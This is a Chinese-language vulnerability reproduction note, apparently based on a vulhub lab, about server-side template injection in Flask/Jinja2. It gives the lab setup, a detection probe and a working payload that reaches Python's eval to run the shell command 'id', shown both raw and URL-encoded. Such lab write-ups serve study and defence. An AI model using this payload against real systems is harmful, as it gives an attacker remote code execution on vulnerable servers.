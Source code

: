 ```yaml
---
title: "Jinja2 SSTI 服务端模版注入攻击"
id: zhfly2990
---
```


# Flask / jinja2 SSTI 服务端模版注入攻击

## 一、漏洞简介

`SSTI`即服务端模版注入攻击。由于程序员代码编写不当，导致用户输入可以修改服务端模版的执行逻辑，从而造成`XSS`,任意文件读取，代码执行等一系列问题。

## 二、漏洞影响

## 三、复现过程

编译及运行测试环境：

```
docker-compose build
docker-compose up -d 
```

访问`http://www.0-sec.org/?name={{233*233}}`，得到54289，说明SSTI漏洞存在。

获取eval函数并执行任意python代码的POC：

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %} 
```

访问`http://www.0-sec.org:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D`，得到执行结果：

![image](../img/68674c9737e555b342368a6eb6708f82.png)

## 参考链接

> https://drops.org.cn/Python/flask-jinja2-ssti.html#directory072591889128396616

> https://vulhub.org/#/environments/flask/ssti/